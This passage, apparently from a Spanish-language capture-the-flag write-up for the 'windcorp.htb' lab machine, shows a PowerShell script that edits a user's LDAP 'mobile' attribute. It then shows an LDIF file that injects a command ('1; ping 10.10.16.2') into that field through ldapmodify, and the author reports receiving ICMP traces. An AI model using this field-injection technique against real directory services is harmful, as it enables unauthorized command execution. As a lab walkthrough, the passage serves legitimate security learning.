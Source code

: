 ```null
$textBox.Size = New-Object System.Drawing.Size(260,20)
$form.Controls.Add($textBox)
$textBox.Text = $User.Get("mobile")

$form.Topmost = $true

$form.Add_Shown({$textBox.Select()})
$result = $form.ShowDialog()

if ($result -eq [System.Windows.Forms.DialogResult]::OK)
{
    $x = $textBox.Text
    $User.Put("mobile",$x)
    $User.SetInfo()
}
```

El script consiste en una autenticación al LDAP como un usuario. Como tengo un TGT, puedo tratar de modificar el atributo ```mobile``` de este usuario y ejecutar comandos. Listo este campo con ```ldapsearch```.

```null
root@webserver:~# ldapsearch -H ldap://windcorp.htb -b "DC=windcorp,DC=htb" | grep mobile
SASL/GSS-SPNEGO authentication started
SASL username: ray.duncan@WINDCORP.HTB
SASL SSF: 256
SASL data security layer installed.
mobile: 43235345
mobile: 93827637
mobile: 23232323
mobile: 9342211
```

Creo un archivo de configuración ```test.ldif```

```null
root@webserver:~# cat test.ldif 
dn: CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb
changetype: modify
replace: mobile
mobile: 1; ping 10.10.16.2
```

Lo modifico y recibo las trazas ICMP

```null
root@webserver:~# ldapmodify -Y GSSAPI -H ldap://windcorp.htb -D "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb" -f test.ldif
SASL/GSSAPI authentication started
SASL username: ray.duncan@WINDCORP.HTB
SASL SSF: 256
SASL data security layer installed.
modifying entry "CN=Ray Duncan,OU=Development,DC=windcorp,DC=htb"
```
